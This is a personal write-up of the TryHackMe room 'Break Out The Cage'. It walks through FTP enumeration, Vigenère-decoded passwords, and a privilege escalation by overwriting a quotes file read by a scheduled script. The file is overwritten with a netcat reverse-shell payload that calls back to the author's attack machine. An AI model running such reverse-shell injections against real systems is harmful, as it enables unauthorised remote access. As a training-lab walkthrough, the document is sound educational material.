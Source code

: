 **<p align="center">TryHackMe: Break Out The Cage</p>**
---

<p align="center">
<img
src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/room%20icon.jpeg" alt="image alt" width="180" />
</p>

[![Day 29 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2029%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

**Topic:** Web application pentesting

**Completed:** 8/13/2025

“Help Cage bring back his acting career and investigate the nefarious goings on of his agent!”

<p align="center">+++++++++</p>

Beginning with an `nmap -sV -sC` scan, I identified three open TCP ports:
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Nicholas Cage Stories
```

Two things stood out immediately:
- Anonymous FTP login was enabled.

- Port 80 hosted a site called “Nicholas Cage Stories.”

Checking out the HTTP service brought me to a static web page where Mr. Cage appeared to share updates with his fans. The page didn’t have working navigation links, but its source code included a few images and hardcoded references that felt worth keeping in mind for later.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%201.png)

Since anonymous login was allowed, I connected to the FTP server and found a single file named `dad_tasks`. I downloaded it using:
```
get dad_tasks
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%202.png)

Opening the file showed Base64-encoded text. After decoding, the result still looked scrambled, indicating it was likely encrypted or encoded again.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%203.png)

To further investigate the scrambled output from the `dad_tasks` file, I ran it through an online cipher identifier. The tool recognized the text as a Vigenère cipher, which I was able to decode successfully. The plaintext not only contained some funny “Dad’s Tasks,” but also revealed Weston’s password.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%204.png)

Using the recovered credentials, I logged into Weston’s account via SSH:
```
ssh weston@10.201.18.31
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%205.png)

I began basic enumeration to identify other local users and check for potential privilege escalation paths.

To list accounts with home directories:
```
cat /etc/passwd | grep "/home"
```

To see what commands Weston could run as root:
```
sudo -l
```

The output revealed Weston could run `/usr/bin/bees` as root. Executing it displayed the following broadcast message:
```
"AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%206.png)

I checked group memberships using:
```
id
```

This confirmed Weston was also part of the `cage` group.

To search for files owned by this group, I ran:
```
find / -group cage 2>/dev/null
```

Among the results, one file stood out:
`/opt/.dads_scripts/spread_the_quotes.py`, a Python script responsible for the periodic broadcast quotes.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%207.png)

Opening `/opt/.dads_scripts/spread_the_quotes.py` revealed a short Python script that reads all lines from `/opt/.dads_scripts/.files/.quotes`, randomly selects one, and then uses the `wall` command to broadcast it to all logged-in users.


This means that anything placed into `.quotes` would be executed by `wall`, giving us a potential code execution vector.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%208.png)

Knowing I could inject commands, I looked up a Pentestmonkey Netcat reverse shell payload and set up a listener on my attack machine on port `4563`:
```
nc -lvnp 4563
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%209.png)

Opening `/opt/.dads_scripts/.files/.quotes` showed a long list of quotes, matching the ones broadcasted every few minutes by the script.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%2010.png)

To hijack the broadcast process, I overwrote the `.quotes` file with my payload:
```
echo "hello;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.18.126 4563 >/tmp/f" > /opt/.dads_scripts/.files/.quotes
```

`hello;` being a harmless filler to ensure the rest of the command runs cleanly. The rest creates a FIFO, connects back to my listener, and attaches an interactive shell.

After a moment, the scheduled script executed and I caught a reverse shell, now running as the user `cage`.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%2011.png)

To make the reverse shell more usable, I upgraded it to a fully interactive TTY:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

On the user home directory lay a `email_backup` folder & a `Super_Duper_Checklist` file. The `Super_Duper_Checklist file` included the first THM flag.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%2012.png)

Reading through the emails in `email_backup` revealed clues for escalating privileges, confirming that Cage was not running as root.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%2013.png)

One email in particular, `email_3`, contained a string that looked like a ciphered password and repeated the word  `face` way too many times.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%2014.png)

Using an online cipher identifier, I determined the string was encrypted with a Vigenère cipher. The key was `face`, and decoding it revealed the root user’s password.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%2015.png)

Using the `su -` to change to the root user, along with the discovered password, successfully gave full root privileges.

In the root directory, there was another `email_backup` folder containing several more emails.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%2016.png)

Reading through the emails we find that Cage was in fact not being paranoid about his agent, he was in fact praying for his downfall. Amongst the theatrics was the root flag!

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/Screenshot%2017.png)

<p align="center">+</p>

**Lessons Learned**

This room was really intriguing and a lot of fun to work through. It taught me about Vigenère ciphers and also introduced me to the `wall` command, what it is, how it works, and how it can be leveraged for command execution. Another room that highlighed the importance of careful enumeration, analyzing encoded data, and thinking creatively for privilege escalation, showing how multiple techniques can be combined to move from a low-privilege user to root.

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers directly. Instead, I’ve documented my full process to support both others and myself in understanding the vulnerability.

**Resources**:
- [TryHackMe's Break Out The Cage Room](https://tryhackme.com/room/breakoutthecage1)
- [Cipher Identifier](https://www.dcode.fr/cipher-identifier)
